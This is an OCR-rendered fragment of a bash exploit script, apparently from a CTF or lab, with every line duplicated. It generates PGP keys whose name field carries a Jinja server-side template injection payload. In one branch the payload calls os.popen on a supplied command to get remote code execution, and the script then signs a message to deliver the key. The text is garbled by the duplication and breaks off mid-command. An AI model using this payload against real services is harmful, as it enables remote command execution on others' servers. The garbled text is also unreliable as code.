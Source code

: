 ```
# if -c is unset, generate jinja payload


if [[ ! -v COMMAND ]]; then
if [[ ! -v COMMAND ]]; then
    log "generating new keypair with jinja"
    log "generating new keypair with jinja"
    python3 ${KEYGEN} -p 'password' -n "{{ ${PAYLOAD} }}" -e "${EMAIL}" >/dev/null # suppress pgp-pysuite output
    python3 ${KEYGEN} -p 'password' -n "{{ ${PAYLOAD} }}" -e "${EMAIL}" >/dev/null # suppress pgp-pysuite output


# otherwise generate shell command payload
# otherwise generate shell command payload


else
else
    log "generating new keypair with shellcode"
    log "generating new keypair with shellcode"
    python3 ${KEYGEN} \
    python3 ${KEYGEN} \
        -p 'password' \
        -p 'password' \
        -n "{{request.application.__globals__.__builtins__.__import__('os').popen('${PAYLOAD}').read()}}" \
        -n "{{request.application.__globals__.__builtins__.__import__('os').popen('${PAYLOAD}').read()}}" \
        -e "${EMAIL}" >/dev/null # suppress pgp-pysuite output
        -e "${EMAIL}" >/dev/null # suppress pgp-pysuite output
fi
fi


PUBKEY=${PWD}/keypgp_uwu.pub.asc
PUBKEY=${PWD}/keypgp_uwu.pub.asc
PRIVATEKEY=${PWD}/keypgp_uwu.key.asc
PRIVATEKEY=${PWD}/keypgp_uwu.key.asc


#log "PUBKEY:\n$(cat ${PUBKEY})\n"
#log "PUBKEY:\n$(cat ${PUBKEY})\n"




#log "PRIVATEKEY:\n$(cat ${PRIVATEKEY})\n"
#log "PRIVATEKEY:\n$(cat ${PRIVATEKEY})\n"






# encode some sort of message with private key
# encode some sort of message with private key


SIGN="${PWD}/pgp-pysuite/sign.py"
SIGN="${PWD}/pgp-pysuite/sign.py"
MSG=$(python3 ${SIGN} -c ${PUBKEY} -k ${PRIVATEKEY} -p password -m 'benign message' \
MSG=$(python3 ${SIGN} -c ${PUBKEY} -k ${PRIVATEKEY} -p password -m 'benign message' \
```